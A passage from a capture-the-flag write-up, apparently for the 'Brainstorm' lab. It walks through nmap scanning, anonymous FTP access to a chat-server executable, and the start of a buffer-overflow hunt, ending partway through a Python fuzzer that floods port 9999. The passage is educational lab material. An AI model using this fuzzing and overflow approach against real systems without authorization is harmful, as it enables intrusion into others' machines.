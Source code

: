 We can see that the machine has 3 open ports, 21, 3389 and 9999.

With `nmap -sVC -p21,3389,9999 10.10.201.103` command we make a further scan in otehr to discover services and versions running on those ports


![3]

We found a ftp server in port 21 and Brainstorm chat in port 9999, the ftp-anon default script shows that the anonymous login is allowed, this means that we can connect theough ftp to this machine

![4]

We run a ls command a found chatserver executable

## Initial Access

We have a directory file called chatserver and if we remember the first enumeration with nmap, one of the ports is running Brainstorm chat, so we have to get the way to use this executable to get access to the system

If we try to connect trhough port 9999 we get access to the chat server

![5]

After trying some usual commands like dir, ls, help...... I noticed that the chat is interpreting my strings, so I started to send a lot of characters in order to find some restriction

![6]

The user name has a character limitation, so we can try to locally probe the .exe file in order to find out if this machine is vulnerable to buffer overflow atack

Through get command in ftp shell, we cand download the exe and the dll file

![7]

In a windows 7 machine with immunity debuger installed, we can analyzed them in order to find the buffer overflow, I used the BufferOverFlowPrep machine and I transfered the files through a simple http server with python

## BufferOverflow

I start fuzzing the application with fuzzer.py file

```
#!/usr/bin/env python3

import socket, time, sys

ip = ""

port = 9999
timeout = 5
prefix = ""

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
```